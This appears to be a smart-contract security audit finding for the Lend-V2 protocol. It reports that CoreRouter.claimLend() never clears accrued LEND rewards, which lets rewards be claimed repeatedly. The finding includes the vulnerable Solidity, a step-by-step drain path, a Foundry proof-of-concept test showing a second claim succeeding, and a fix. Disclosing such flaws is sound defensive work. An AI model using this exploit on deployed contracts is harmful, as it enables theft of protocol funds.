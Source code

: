 Itchy Fiery Cyborg

High

# Reentrant LEND token claiming in `CoreRouter.claimLend()` leading to infinite reward drain.

### Summary

The missing accrual reset in `CoreRouter.claimLend()` will cause a complete loss of LEND tokens for the protocol as an attacker will repeatedly call the function to drain the entire LEND reserve of the CoreRouter contract. The root cause is that `lendAccrued` values are never cleared after claiming, allowing users to claim the same LEND rewards multiple times.

### Root Cause

In [CoreRouter.sol#L403-405](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L407):
```solidity
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
```
The `CoreRouter.claimLend()` function transfers LEND tokens to holders but never resets the `lendAccrued` values for the holders. Therefore, an attacker can repeatedly call the `CoreRouter.claimLend()` function to drain the entire LEND reserve of the CoreRouter contract.

### Internal Pre-conditions

1. Protocol must hold LEND tokens in CoreRouter contract.
2. At least one user must have `lendAccrued > 0`.

### External Pre-conditions

None

### Attack Path

1. Attacker accumulates LEND rewards through supplying to the `CoreRouter.sol` contract.
2. After some time, blocks are mined and attacker accrues some LEND rewards.
3. Attacker repeatedly calls `claimLend()` with his address to drain the LEND tokens held in the CoreRouter contract. holds.

### Impact

The protocol suffers complete loss of LEND tokens held in the CoreRouter contract. 

### PoC

Add the following test to `test/mocks/TestLendAccrual.t.sol`:
```solidity
    function test_multiple_claim_lend() public {
        address lendAddress = lendtroller.getLendAddress();

        // Supply some tokens with two users
        uint256 user1Supply = 500e18;
        uint256 user2Supply = 1000e18;
        (, address lToken) = _supply(user1Supply, user1);
        _supply(user2Supply, user2);

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Claim for user1
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        vm.prank(user1);

        // First claiming
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 lendBalance1 = IERC20(lendAddress).balanceOf(address(user1));
        uint256 lendBalance2 = IERC20(lendAddress).balanceOf(address(coreRouter));
        console2.log("Balance of LEND token after the 1st claimLend: user1=%d, coreRouter=%d", lendBalance1, lendBalance2);

        // Second claiming
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 lendBalance3 = IERC20(lendAddress).balanceOf(deployer);

        lendBalance1 = IERC20(lendAddress).balanceOf(address(user1));
        lendBalance2 = IERC20(lendAddress).balanceOf(address(coreRouter));
        console2.log("Balance of LEND token after the 2nd claimLend: user1=%d, coreRouter=%d", lendBalance1, lendBalance2);
    }
```

Run the test with `forge test -vv --match-test test_multiple_claim_lend` and the logs are as follows:
```solidity
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_multiple_claim_lend() (gas: 856307)
Logs:
  Balance of LEND token after the 1st claimLend: user1=33333333333333333, coreRouter=66666666666666666
  Balance of LEND token after the 2nd claimLend: user1=66666666666666666, coreRouter=33333333333333333

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.92ms (1.67ms CPU time)

Ran 1 test suite in 18.56ms (9.92ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

We can see that the attacker (user1) can successfully claim the LEND tokens repeatedly.

### Mitigation

1. Add `setLendAccrued` function with `onlyAuthorized` modifier to the `LendStorage` contract.
2. Call `setLendAccrued` to reset accrued values immediately after transfer in `CoreRouter.claimLend()`:  
```solidity

// LendStorage.sol
+    function setLendAccrued(address user, uint256 accrued) external onlyAuthorized {
+        lendAccrued[user] = accrued;
+    }

// CoreRouter.sol
    function claimLend(address[] memory holders, ...) external {
        // ... existing code ...
        
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
-               grantLendInternal(holders[j], accrued); 
+               uint256 remaining = grantLendInternal(holders[j], accrued);
+               if (remaining == 0) {
+                   lendStorage.setLendAccrued(holders[j], 0);
+               }
            }
            unchecked {
                ++j;
            }
        }
    }
```